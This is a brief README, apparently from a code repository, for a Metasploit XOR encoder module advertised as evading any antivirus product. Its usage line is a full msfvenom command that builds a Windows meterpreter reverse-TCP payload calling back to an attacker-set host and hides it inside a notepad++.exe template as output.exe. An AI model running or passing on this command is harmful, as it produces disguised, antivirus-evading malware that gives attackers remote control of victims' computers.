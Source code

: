 # Encrypter-Metasploit

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.


Installation
-----------

Copy bf_xor.rb in metasploit/modules/encoders/x86/

Usage
-----------
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/bf_xor -o output.exe`
